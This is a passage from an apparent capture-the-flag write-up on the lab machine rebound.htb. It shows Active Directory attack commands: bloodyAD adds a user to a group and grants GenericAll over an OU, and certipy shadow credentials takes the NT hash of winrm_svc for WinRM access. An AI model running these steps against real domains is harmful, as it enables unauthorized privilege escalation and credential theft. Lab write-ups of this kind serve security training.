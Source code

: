 The strategy is clear: leverage this information to add oorend to the ServiceMGMT group. For this task, I'll employ bloodyAD, a handy tool available at [https://github.com/CravateRouge/bloodyAD/wiki/User-Guide](https://github.com/CravateRouge/bloodyAD/wiki/User-Guide).


```bash
python bloodyAD.py -u oorend -p 'pass' -d rebound.htb --host 10.10.11.231 add groupMember SERVICEMGMT oorend

# you should see response below 
[+] oorend added to SERVICEMGMT
```


Successfully adding oorend to the SERVICEMGMT group is a great achievement! To continue our progress, the next step is to grant oorend GenericAll permissions over the Service Users OU. Let's proceed with this crucial permission assignment to further advance our exploration.


```bash
python bloodyAD.py -d rebound.htb -u oorend -p 'pass' --host 10.10.11.231 add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend

# you should see response below 
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```


With full control over the Service Users OU, we're in a powerful position. The observation of a Cert Publishers group in the groups.json from RustHound confirms that the DC relies on certificates for pre-authentication validation [https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials).

Given our GenericAll permission over winrm_svc, we can now obtain its NT hash [https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-certificate-services). Let's leverage this capability to gather the NT hash and use it to log into the machine via WinRM.


```bash
certipy shadow auto -account winrm_svc -u "oorend@rebound.htb" -p $passwd -dc-ip 10.10.11.231 -k -target dc01.rebound.htb
```


